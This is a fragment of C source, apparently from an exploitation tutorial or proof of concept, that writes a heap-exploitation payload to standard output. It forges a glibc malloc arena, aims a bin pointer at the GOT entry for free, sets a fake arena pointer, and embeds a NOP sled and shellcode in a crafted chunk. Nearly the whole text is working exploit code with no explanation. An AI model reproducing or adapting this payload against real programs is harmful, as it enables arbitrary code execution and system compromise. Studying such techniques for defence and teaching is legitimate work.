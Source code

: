 ```c
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* last_remainder */
        for(i=0;i<127;i++) {
                convert_endianess(BIN1+(i*8));
                if(i == 119) {
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* preserve prev_size */
                        fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* preserve size */
                } else if(i==0) {
                        fwrite("\xe8\x98\x04\x08", 4, 1, stdout); /* bins[i][0] = (GOT(free) - 12) */
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][1] */
                }
                else {
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][0] */
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][1] */
                }
        }
        for(i=0;i<4;i++) {
                fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* binmap[i] */
        }
        fwrite("\x00\x84\xfd\xb7", 4, 1, stdout); /* next */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* next_free */
        fwrite("\x00\x60\x0c\x00", 4, 1, stdout); /* system_mem */
        fwrite("\x00\x60\x0c\x00", 4, 1, stdout); /* max_system_mem */
        for(i=0;i<234;i++) {
                fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* PAD */
        }
        for(i=0;i<722;i++) {
                if(i==721) {
                        /* Chunk 724 contains the shellcode. */
                        fwrite("\xeb\x18\x00\x00", 4, 1, stdout); /* prev_size  - Jmp 24 bytes */
                        fwrite("\x0d\x04\x00\x00", 4, 1, stdout); /* size */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fd */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* bk */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fd_nextsize */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* bk_nextsize */
                        fwrite("\x90\x90\x90\x90\x90\x90\x90\x90" \
                        "\x90\x90\x90\x90\x90\x90\x90\x90", 16, 1, stdout);  /* NOPS */
                        fwrite(scode, sizeof(scode)-1, 1, stdout); /* SHELLCODE */
                        for(j=0;j<230;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                        continue;
                } else {
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* prev_size */
                        fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* size */
                }
                if(i==720) {
                        for(j=0;j<90;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                        fwrite("\x18\xa0\x04\x08", 4, 1, stdout); /* Arena Pointer */
                        for(j=0;j<165;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                } else {
                        for(j=0;j<256;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                }
        }
        return 0;
}
```
